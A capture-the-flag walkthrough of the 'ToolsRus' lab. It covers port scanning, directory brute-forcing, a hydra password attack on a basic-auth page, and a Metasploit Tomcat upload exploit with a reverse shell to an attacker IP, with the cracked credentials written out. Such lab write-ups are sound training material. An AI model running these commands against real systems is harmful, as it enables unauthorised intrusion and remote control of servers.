

# ToolsRus

## 1. What directory can you find, that begins with a "g"?

 First set up an environment variable to type commands more quickly.  

 `:> export server='10.201.71.243`

 Second, what targets are available  

 `:> nmap $server`  

 

 What runs on the identified ports.  

 `:> nmap $server -sV`

 

 Start with port 80  

 `:> dirb http://$server /usr/share/wordlists/dirb/big.txt`

 

## 2. Whose name can you find from this directory?

 Download and see what is received.  

 `:> wget http://$server/<answer-to-previous-queestion>/`  

   

 Check the contents  

 `:> cat <answer-to-previous-question>`  

   


## 3. What directory has basic authentication?

 Previously answered  

 

## 4. What is bob's password to the protected part of the website?

 `:> hydra -l "bob" -P /usr/share/wordlists/rockyou.txt 10.201.71.243 http-get /protected -f -o output.txt`  


## 5. What other port that serves a webs service is open on the machine?

 Previously Discovered  

## 6. What is the name and version of the software running on the port from question 5?

 Simply visit the server on the correct port from question 5.  

## 7. Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Not all the vulnerabilities are named in the same format.


## 8. What is the server version?

 Previously Discovered

## 9. What version of Apache-Coyote is this service using?

 Already Discovered  

## 10. Use Metasploit to exploit the service and get a shell on the system. 

 Start Metasploit with `:> msfconsole` and conduct a search for Tomcat with `:> search tomcat`. Option 65 is a reverse shell. `:>  use 18` will load the exploit.  

   

For additional detail, the exploit is an authenticated upload code execution that will work because we have discovered credentials already.  

   

 Once the exploit is loaded, `show options` and begin editing the parameters with known information.
 ```` bash
 set HttpPassword bubbles
 set HttpUsername bob
 set RHOSTS 10.201.108.97 # Victim machine
 set RPORT ????
 set TARGETURI /manager # the default installation location
 set LHOST 10.201.33.191 # Attacker IP
 set LPORT 4444 # basic network security should block port 4444; consider other options.
 exploit
 ````

 

 Exploited and the meterpreter reverse shell is achieved.  
 
## 11. What user did you get a shell as?

 Finding your identity does not work with `:> whoami`. Use `:> getuid` instead.  

 

## 12. What flag is found in the root directory?  

 The two comamands that reveal the answer are `:> ls` and `:> cat`.  
